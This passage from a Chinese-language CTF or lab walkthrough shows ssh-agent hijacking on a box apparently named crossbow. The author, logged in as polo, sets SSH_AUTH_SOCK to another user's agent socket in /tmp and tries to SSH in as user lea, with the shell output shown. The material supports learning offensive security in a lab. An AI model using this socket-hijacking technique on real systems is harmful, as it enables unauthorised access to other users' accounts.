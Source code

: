 发现用户`lea`正在执行`ssh-agent`

### ssh-agent劫持

查看一下是个啥：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205684.png" alt="image-20240403210523198" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205685.png" alt="image-20240403210555216" style="zoom: 33%;" />

尝试使用一下：

```bash
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXvsuvXX/agent.1259046; export SSH_AUTH_SOCK;
```

没毛反应，所以这前面是连接代理的意思？尝试ssh连接一下`lea`用户：

```bash
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXvsuvXX/agent.1259046; ssh lea@172.20.10.3
The authenticity of host '172.20.10.3 (172.20.10.3)' can't be established.
ED25519 key fingerprint is SHA256:TCA/ssXFaEc0sOJl0lvYyqTVTrCpkF0wQfyj5mJsALc.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
    ~/.ssh/known_hosts:4: [hashed name]
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? 
Host key verification failed.
```

说明是有效的，可能是使用方法不对，浏览[相关文章](https://smallstep.com/blog/ssh-agent-explained/)，发现：

![代理转发-in-action.png](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205686.png)

![特工劫持.png](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404032205687.png)

原来是代理转发，可能那个需要利用的agent藏在了没让我们打开的那个文件中，尝试利用一下：

```bash
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXcE94FH/agent.1089 \ ssh lea@172.20.10.3
```

```bash
(remote) polo@crossbow:/tmp/ssh-XXXXXXvsuvXX$ SSH_AUTH_SOCK=/tmp/ssh-XXXXXXcE94FH/agent.1089  ssh lea@172.20.10.3
The authenticity of host '172.20.10.3 (172.20.10.3)' can't be established.
ED25519 key fingerprint is SHA256:TCA/ssXFaEc0sOJl0lvYyqTVTrCpkF0wQfyj5mJsALc.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
    ~/.ssh/known_hosts:4: [hashed name]
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.10.3' (ED25519) to the list of known hosts.
lea@172.20.10.3's password: 
```
